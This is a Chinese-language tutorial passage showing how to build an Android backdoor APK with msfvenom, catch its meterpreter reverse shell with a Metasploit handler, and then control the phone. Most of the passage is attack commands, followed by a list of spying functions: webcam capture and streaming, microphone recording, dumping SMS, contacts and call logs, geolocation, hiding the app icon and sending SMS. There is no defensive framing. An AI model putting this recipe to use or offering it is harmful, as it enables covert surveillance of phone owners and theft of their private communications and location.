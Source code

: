 - 同样的我们可以通过 MSF 生成一个 apk 的后门应用。

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.53 LPORT=4444 
R > xuegod.apk
```

- 下载至安卓手机进行安装，安装时修改一下后台权限。以免断开。

```
msfdb run
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD android/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.53
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > exploit
```

- 手机端点击打开 APK

```
meterpreter > ifconfig
```

由于我这边演示用的手机操作系统定制化程度较高，所以其他功能就没办法测试了，需要大家自行测
试。

```
常用命令解释

Stdapi: Webcam Commands
===================================

webcam_list 			列出网络摄像头
record_mic 				[ˈrekərd]/记录/ 从默认麦克风录制音频为 X 秒
webcam_chat 			开始视频聊天
webcam_snap 			从指定的摄像头获取快照
webcam_stream -i 1		从指定的网络摄像头播放视频流[选择后摄像头]

Android Commands
=================

activity_start 			从 URI 字符串启动 Android 活动
check_root 				检查设备是否有根
dump_calllog 			获取调用日志
dump_contacts 			获取联系人列表
dump_sms 				获取短信
geolocate 				利用地理定位获取当前 LAT
wlan_geolocate 			利用 WLAN 信息获取当前 LAT
hide_app_icon 			从发射器隐藏应用程序图标
interval_collect 		管理区间收集能力
send_sms 				从目标会话发送短消息
set_audio_mode 
sqlite_query 			从存储库查询 SQLite 数据库
wakelock 				启用/禁用 Wakelock

meterpreter > cd /
meterpreter > ls
```
